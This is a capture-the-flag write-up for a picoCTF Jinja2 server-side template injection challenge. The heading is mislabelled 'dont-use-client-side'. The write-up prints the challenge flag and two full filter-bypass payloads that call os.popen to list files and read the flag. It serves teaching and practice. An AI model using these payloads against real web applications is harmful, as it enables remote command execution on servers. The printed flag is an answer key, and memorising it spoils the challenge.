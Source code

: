 # Challenge: dont-use-client-side
- Category: Web

## Description
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
Additional details will be available after launching your challenge instance.
## Files and Setup
`http://shape-facility.picoctf.net:56693/`

## Flag: 
`picoCTF{sst1_f1lt3r_byp4ss_6787c4d8}`

## Solution
Opening the website i saw 

<img width="658" height="259" alt="image" src="https://github.com/user-attachments/assets/d177824b-7cb2-47ce-9b93-cd79f81666e8" />

The values, i enter in this would just be announced back to me.

So looking at the name SSTI, which suggest Server Side Template Injection, i entered `{{5*5}}`. This returned `25`, which confirmed that this website used ssti.

Searching online for SSTI exploits, i found an article on portswigger, which led me to the decision tree that showed

<img width="640" height="386" alt="image" src="https://github.com/user-attachments/assets/10cf3fb2-a926-48a8-b003-1aaa7dfe7384" /> 

and i also found this `For example, the payload {{7*'7'}} returns 49 in Twig and 7777777 in Jinja2.`, so i decided to check for Jinja2, and it matched.

After multiple failed attempts i figured out that `. | _ []` are blacklisted

After reading up on how to bypass these filters, i was able to get 
`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}`

which returned 

<img width="1363" height="501" alt="image" src="https://github.com/user-attachments/assets/918dc51a-1842-4d93-9843-0eae76e2ddd4" />

finally the payload which got me the flag was 
`{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}`

<img width="1794" height="347" alt="image" src="https://github.com/user-attachments/assets/52ff0a04-4cc3-4494-82ee-285bce95be3a" />

## References
- https://portswigger.net/web-security/server-side-template-injection
- http://onsecurity.io/blog/server-side-template-injection-with-jinja2/
- https://techbrunch.github.io/patt-mkdocs/Server%20Side%20Template%20Injection/#jinja2-filter-bypass
